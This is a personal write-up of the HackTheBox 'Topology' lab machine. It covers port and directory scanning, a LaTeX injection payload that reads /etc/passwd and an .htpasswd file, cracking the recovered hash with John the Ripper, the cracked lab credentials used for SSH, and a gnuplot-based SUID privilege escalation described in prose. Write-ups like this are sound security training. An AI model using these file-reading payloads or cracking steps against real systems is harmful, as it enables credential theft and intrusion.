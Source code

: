 ```yaml
---
layout: post
title: "Topology"
date: 2023-06-24 
categories: ["Hands-on", "HackTheBox"]
tags: "Latex Injection"
---
```


# Topology
Tool used: **nmap**, **nikto**, **Gobuster**, **John**, **Linpeas**

## Enumeration 

### Nmap 

```bash
nmap -sS -Pn 10.10.11.217
```

### Gobuster 
```bash
gobuster dir -u 10.10.11.217 -w /usr/share/wordlists/dirb/common.txt 
```

### Nikto 
```bash
nikto -h http://10.10.11.217/
```

### Outcome
The machine has the SSH, and the HTTP port open, and from the gobuster and nikto, I found a directory of images and some hidden directories like htpasswd and htacces. I wonder if I can inject a malicious image to gain access.

**Apache 2.4.41 : port 80**
http://latex.topology.htb/equation.php
On the website there is a hyperlink to a php file, but I cannot access it. For me to access that file or that part of the website I need to add the domain (latex.topology) with the IP address to the /etc/hosts. 


## Exploring the website 
The latex equation generator is now accessible from my machine. I can see that it takes in an input such as the one provided below as an example, and it generates a PNG file. I explored the latex injection and tried generating the following input '\input{/etc/passwd}', but  it won't be that easy. The image shows the following text as the output 'Illegal command detected. Sorry, now back to research to bypass this. 

![website latex](/images/Topology/website.png)

![Bad Request](/images/Topology/bad.png)

Turns out I was missing a lot of stuff. First, I need $ at the start and end, and input will only work with lstinputlisting. This latex command used to include the content of an external file like a password file to be included in the content.  

```bash
$\lstinputlisting{/etc/passwd}$
```

## htpasswd
From the gobuster scan, I found the .htpasswd file. htpasswd file used by Apache web servers to store usernames and their corresponding encrypted passwords for HTTP Basic Authentication. After generating the input, I found the user and their MD5 hashed password. 

```bash
$\lstinputlisting{/var/www/dev/.htpasswd}$

```
## Johnn the ripper 
I need to crack the mD5 of hashed password after ':'. I copied the hashed password into a file and used John the ripper with rockyou.txt wordlist to crack it. 

```bash
# hash is the file that contains the encrypted file.
john --wrodlist=rockyou.txt hash
vdaisley:calculus20
```

## SSH 
Now that I have the username and the password, I can go ahead and SSH as that user using the below command. After accessing the user, I found the user flag and Linpeas is already installed in the machine ready for me.

```bash
ssh vdaisley@10.10.11.217 
```


## Escalating 

### Linpeas outcome
Linpeas provided me with a lot of information and different ways the system can be exploited, but I still used a hint from the walkthrough to know where and what to look for. We can see from the below that the /opt is usually empty BUT there is a gnuplot directory, but sadly I don't have permission to access it. I created a file in the directory and tried to read it, this concludes that I have permission to write and read! According to the walkthrough I need to write a **PLY** script that would spawn a root shell by converting the BASH to SUID permissions!

```bash
╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
drwx-wx-wx  2 root root 4096 Jun 25 02:30 gnuplot
```

### PLT script!
I followed the script of [Hack the Box Writeups](https://hacktheboxwriteups.medium.com/htb-topology-writeup-2dee14592115) to write the script within a plot file that would spawn a root shell by converting the BASH to SUID within the Gnuplot directory since we have the permission to write. With that, I had root access and got the root flag! 

